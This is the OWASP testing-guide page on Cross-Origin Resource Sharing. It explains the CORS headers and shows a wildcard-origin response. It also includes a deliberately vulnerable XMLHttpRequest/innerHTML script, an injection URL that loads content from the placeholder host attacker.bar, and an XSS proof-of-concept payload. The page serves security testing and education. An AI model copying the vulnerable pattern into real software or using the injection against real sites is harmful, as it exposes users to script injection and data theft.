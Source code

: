```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```

# Testing for Cross Origin Resource Sharing

## Summary

[Cross origin resource sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing) (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest L2 API in a controlled manner. In the past, the XMLHttpRequest L1 API only allowed requests to be sent within the same origin as it was restricted by the same origin policy.

Cross-origin requests have an origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP [headers](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers) are used to accomplish this.

The [W3C CORS specification](https://www.w3.org/TR/cors/) mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

### Origin & Access-Control-Allow-Origin

The origin header is always sent by the browser in a CORS request and indicates the origin of the request. The origin header can not be changed from JavaScript however relying on this header for Access Control checks is not a good idea as it may be spoofed outside the browser, so you still need to check that application-level protocols are used to protect sensitive data.

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a `*` wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed. Other insecure example is when the server returns back the origin header without any additional checks, what can lead to access of sensitive data. Note that this configuration is very insecure, and is not acceptable in general terms, except in the case of a public API that is intended to be accessible by everyone.

### Access-Control-Request-Method & Access-Control-Allow-Method

The Access-Control-Request-Method header is used when a browser performs a preflight OPTIONS request and let the client indicate the request method of the final request. On the other hand, the Access-Control-Allow-Method is a response header used by the server to describe the methods the clients are allowed to use.

### Access-Control-Request-Headers & Access-Control-Allow-Headers

These two headers are used between the browser and the server to determine which headers can be used to perform a cross-origin request.

### Access-Control-Allow-Credentials

This header as part of a preflight request indicates that the final request can include user credentials.

### Input Validation

XMLHttpRequest L2 (or XHR L2) introduces the possibility of creating a cross-domain request using the XHR API for backwards compatibility. This can introduce security vulnerabilities that in XHR L1 were not present. Interesting points of the code to exploit would be URLs that are passed to XMLHttpRequest without validation, specially if absolute URLS are allowed because that could lead to code injection. Likewise, other part of the application that can be exploited is if the response data is not escaped and we can control it by providing user-supplied input.

### Other Headers

There are other headers involved like Access-Control-Max-Age that determines the time a preflight request can be cached in the browser, or Access-Control-Expose-Headers that indicates which headers are safe to expose to the API of a CORS API specification, both are response headers specified in the CORS W3C document.

## How to Test

A tool such as [OWASP Zed Attack Proxy Project](https://www.zaproxy.org) can enable testers to intercept HTTP headers, which can reveal how CORS is used. Testers should pay particular attention to the origin header to learn which domains are allowed. Also, manual inspection of the JavaScript is needed to determine whether the code is vulnerable to code injection due to improper handling of user supplied input. Below are some examples:

### Example 1: Insecure Response with Wildcard `*` in Access-Control-Allow-Origin

Request (note the 'origin' header:)

```txt
GET http://attacker.bar/test.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Response (note the 'Access-Control-Allow-Origin' header:)

```txt
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:57:53 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Content-Length: 4
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: application/xml

[Response Body]
```

### Example 2: Input Validation Issue: XSS with CORS

This code makes a request to the resource passed after the `#` character in the URL, initially used to get resources in the same server.

Vulnerable code:

```html
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

For example, a request like this will show the contents of the profile.php file:

`http://example.foo/main.php#profile.php`

Request and response generated by this URL:

```html
GET http://example.foo/profile.php HTTP/1.1
Host: example.foo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 18:20:48 GMT
Server: Apache/2.2.16 (Debian)
X-Powered-By: PHP/5.3.3-7+squeeze17
Vary: Accept-Encoding
Content-Length: 25
Keep-Alive: timeout=15, max=99
Connection: Keep-Alive
Content-Type: text/html

[Response Body]
```

Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the example.foo domain, with a URL like this:

`http://example.foo/main.php#http://attacker.bar/file.php`

Request and response generated by this URL:

```txt
GET http://attacker.bar/file.php HTTP/1.1
Host: attacker.bar
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:24.0) Gecko/20100101 Firefox/24.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://example.foo/main.php
origin: http://example.foo
Connection: keep-alive

HTTP/1.1 200 OK
Date: Mon, 07 Oct 2013 19:00:32 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.4-14+deb7u3
Access-Control-Allow-Origin: *
Vary: Accept-Encoding
Content-Length: 92
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
